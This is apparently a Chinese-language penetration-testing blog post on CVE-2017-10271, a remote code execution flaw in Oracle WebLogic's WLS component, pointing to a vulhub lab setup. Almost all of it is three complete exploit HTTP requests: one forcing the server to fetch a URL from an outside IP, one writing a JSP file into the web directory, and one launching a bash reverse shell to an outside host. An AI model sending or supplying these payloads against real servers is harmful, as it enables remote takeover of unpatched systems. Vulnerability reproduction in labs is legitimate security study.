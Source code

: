 +++
date = "2018-03-09T09:20:03+08:00"
description = ""
draft = false
tags = ["代码执行","命令执行"]
title = "CVE-2017-10271"
topics = ["Pentest"]

+++

### 0x00 CVE-2017-10271
CVE-2017-10271是利用Oracle WebLogic中WLS 组件的反序列化漏洞进行远程代码执行的

漏洞环境：https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271


### 0x01 访问远程文件
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 688
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8" class="java.beans.XMLDecoder">
                <object id="url" class="java.net.URL">
                    <string>http://114.115.123.123:80/aaaaaaa</string>
                </object>
                <object idref="url">
                    <void id="stream" method = "openStream" />
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

### 0x02 写入文件
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 688
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8.0" class="java.beans.XMLDecoder">
                <object class="java.io.PrintWriter"> 
                    <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/cert.jsp</string>
                    <void method="println"><string>&lt;% out.print("ccccc"); %&gt;</string></void>
                    <void method="close"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

### 0x03 执行命令
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 803
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3" >
                        <void index="0"><string>/bin/bash</string></void>
                        <void index="1"><string>-c</string></void>
                        <void index="2"><string><![CDATA[bash -i >& /dev/tcp/114.115.123.123/8888 0>&1]]></string></void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
![CVE-2017-10271执行命令实例](/img/post/cve_2017_10271_command_exec.png)

<br>
#### Reference(侵删)：
* [利用DNSlog回显Weblogic(CVE-2017-10271)漏洞执行命令结果](http://www.freebuf.com/column/158579.html)
* [Weblogic(CVE-2017-10271)漏洞复现 附POC（Author：Poacher）](http://www.bugsafe.cn/archives/136.html)
